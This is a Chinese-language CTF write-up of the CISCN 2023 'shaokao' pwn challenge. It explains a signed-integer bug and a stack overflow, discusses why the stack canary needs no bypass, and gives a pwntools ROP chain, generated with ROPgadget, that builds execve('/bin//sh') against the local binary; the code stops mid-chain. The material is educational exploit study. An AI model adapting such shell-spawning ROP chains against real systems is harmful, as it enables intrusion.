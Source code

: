 ```yaml
---
title: "CISCN2023的PWN"
description: "第一次打国赛！"
pubDate: "Jun 03 2023"
published: true
heroImage: "../../assets/7.png"
tags: ["技术"]
---
```

## 烧烤摊儿（整数溢出+syscall）
#### 漏洞一：有符合的整数
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685154391132-abb0ff9a-bd20-43c6-896a-0a7c2d694b71.png#averageHue=%23040302&clientId=u9dccbb64-7a49-4&from=paste&height=505&id=u2af6f391&originHeight=834&originWidth=1380&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=110936&status=done&style=none&taskId=u7c136378-6e1c-4b2c-872b-cc62c6056a8&title=&width=836.3635880231228)
#### 漏洞二：复制时候的栈溢出
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685154449944-58e7c324-5d0a-473b-bd52-c7575c453487.png#averageHue=%23040302&clientId=u9dccbb64-7a49-4&from=paste&height=252&id=ub24519a8&originHeight=415&originWidth=1266&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=45002&status=done&style=none&taskId=ubd71bfc8-c968-46f8-8ddc-424f024b43d&title=&width=767.2726829255605)
#### 疑惑：为什么canary保护不用绕过
> 虽然开了canary，但是可以看到gaiming函数并不会检测rbp-0x8处的值是否被破坏

为了明白这个点，我看了一下要爆破canary的题目
> 下面是需要爆破canary的

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685370766755-02f110cb-78ea-4cf5-9b74-a238484a0147.png#averageHue=%23828180&clientId=u9413e72c-93d8-4&from=paste&height=558&id=u5e5e351c&originHeight=921&originWidth=1015&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=138156&status=done&style=none&taskId=u5d6b8d7b-d929-4b3e-8b85-64ab14efa0d&title=&width=615.1514795967172)
> 下面是本题的，不用绕过

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685370814842-c659d21a-31ea-4140-b2dc-ba66afa7fc3f.png#averageHue=%23020101&clientId=u9413e72c-93d8-4&from=paste&height=541&id=u5860132f&originHeight=893&originWidth=1056&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=65028&status=done&style=none&taskId=uc9755ff3-3f0c-4b4d-8e84-58e260cb6de&title=&width=639.9999630089984)<br />**所以，在有栈溢出的情况，是否需要爆款绕过canary，请查看汇编代码，看具体的执行流程。**
#### ROPgadget的收集解法
因为题目的符号很多的没有，所以最好的方法，就是使用syscall<br />又因为题目没有什么限制，所以直接使用ropchain生成即可

- 发送很大的负数刷新金币
- 栈溢出出rop链接
> 比赛出现的问题：对于syscall一些执行函数的参数不够熟悉，后面去整理这方面的内容，方便写题更高效的去构造

```python
from pwn import *
from struct import pack

context.log_level = 'debug'
io = process("./shaokao")

# execve generated by ROPgadget
# Padding goes here
p = b''
p += pack('<Q', 0x000000000040a67e) # pop rsi ; ret
p += pack('<Q', 0x00000000004e60e0) # @ .data
p += pack('<Q', 0x0000000000458827) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', 0x000000000045af95) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040a67e) # pop rsi ; ret
p += pack('<Q', 0x00000000004e60e8) # @ .data + 8
p += pack('<Q', 0x0000000000447339) # xor rax, rax ; ret
p += pack('<Q', 0x000000000045af95) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040264f) # pop rdi ; ret
p += pack('<Q', 0x00000000004e60e0) # @ .data
p += pack('<Q', 0x000000000040a67e) # pop rsi ; ret
p += pack('<Q', 0x00000000004e60e8) # @ .data + 8
p += pack('<Q', 0x00000000004a404b) # pop rdx ; pop rbx ; ret
p += pack('<Q', 0x00000000004e60e8) # @ .data + 8
p += pack('<Q', 0x4141414141414141) # padding

p += pack('<Q', 0x0000000000447339) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000496710) # add rax, 1 ; ret
```